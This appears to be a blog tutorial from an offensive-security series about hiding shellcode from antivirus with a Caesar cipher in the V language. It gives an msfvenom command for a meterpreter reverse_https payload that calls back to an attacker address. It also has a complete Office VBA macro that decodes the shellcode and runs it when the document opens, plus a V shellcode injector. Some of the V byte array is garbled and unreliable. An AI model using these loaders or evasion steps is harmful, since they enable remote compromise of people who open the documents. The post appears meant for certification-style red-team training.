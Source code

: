 ```yaml
---
layout: single
title:  "OffensiVe Security with V 3 - Caesar"
date:   2022-11-02 21:54:50 -0500
categories: app-development
tags: vlang windows osep
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"
  
---
```


In the previous part of this series of posts, the [XOR Cipher](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-3-XOR/) was detailed, in this part another **cipher technique** with **Caesar encryption** will be investigated in order to mitigate **AV defenses**.

## Caesar Cipher

The **Caesar cipher** was one of the earliest encryption schemes and is very simple. It is categorized as a **substitution cipher** since it substitutes a letter or number by shifting it to the right by the number specified in the key.

```
Input Output
C -> D
a -> b
e -> f
s -> t
a -> b
r -> s
```

For this, the following code will be used, which shows the encryption method in the **V** language.
First, we'll need to generate a payload, to do so we'll use the following snippet from `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.86 LPORT=443 -f csharp
```

Once the payload was generated the output will be similar at the following.

```bash
byte[] buf = new byte[547] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,
    ..snip..
    0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
```

It will be necessary to convert the **csharp** output to **V**, for this we copy each byte *(547)* in the same way and we will group it by square brackets. To get something similar to the following code block.

```bash
buf := [
    byte(0xfc),0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
    ..snip..
    0x38,0x36,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 ]
```

The next step will be to implement the **Caesar encryption** algorithm. To do this, iterates over all the characters of the **payload**, exchanging them with a **sum** of **+2** (It could be a sum of any number).
To implement that, the following code was created.
```c
fn main() {
    // Caesar cipher
    mut encoded := buf.clone()
    for i := 0; i < buf.len; i++ {
        encoded[i] = buf[i] + 2 & 0xFF
    }
```

>  We performed a bitwise **AND** *(&)* operation with `0xFF` to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds `0xFF`.

Once we have each byte replaced, it is converted to VBA code. To do this, add the string `buf = Array(` at the beginning, a `)` at the end and add a `, _` every 30 iterations. This is necessary so that office can read the payload.
The following code shows the theory.
```c
    // To VBA
    mut v := ''
    for i := 0; i < encoded.len; i++ {
        if i == 0 {
            v += 'buf = Array(${encoded[i]}, '
        }
        else if i  == encoded.len - 1 {
            v += '${encoded[i]})'
        }
        else {
            if i % 30 == 0 {
	              v += '${encoded[i]}, _ \n'
	      }
            else {
                v += '${encoded[i]}, '
            }
        }
    }

    println(v)
}
```

It is also possible to convert it to **Hexadecimal**.
```c
    // To Hex
    mut h := ''
    for i := 0; i < encoded.len; i++ {
        h += '0x${int(encoded[i]):x}, '
    }
```

Or to a **String**.
```c
    // To string
    mut s := ''
    for i := 0; i < encoded.len; i++ {
        s += encoded[i].ascii_str()
    }
```

The output of the code will be the payload in **VBA** format, which we can import into an **Office macro** as shown in the following example.
Here it is necessary to subtract the number of substitutions that we have made when encrypting the payload with **Caesar** *(-2)*.
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Sub MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    buf = Array(254, 234, 145, 2, 2, 2, 98, 51, 212, 139, 231, 102, 141, 84, 50, 141, 84, 14, 141, 84, 22, 141, 116, 42, 17, 185, 76, 40, 51, 1, 51, _
    ..snip..
    231, 90, 197, 97, 234, 109, 1, 1, 1, 51, 59, 52, 48, 51, 56, 58, 48, 54, 59, 48, 58, 56, 2, 189, 242, 183, 164, 88, 108, 2, _
    85, 1, 215)

    ' Caesar decipher
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i
    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Instead of using an **Office macro**, it is possible to inject a **Hexadecimal shellcode** directly with **V**.

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    buf := [
    byte(0xfe), 0xea, 0x971,33, 0x32, 0x30x, 0x6d, 0x79, 0x65, 0xa1, 0xc8, 0x6c, 
    ..snip..
    0x21, 0x50x2, 0x6a, 0x2,]

    // Caesar decipher
    mut shellcode := buf.clone()
    for i := 0; i < buf.len; i++ {
        shellcode[i] = buf[i] - 2
    }
    inject(shellcode)
}
```

It is possible to **build** the above code with:

```bash
v caesar.v
```

### Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/D6csaUgbVxw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
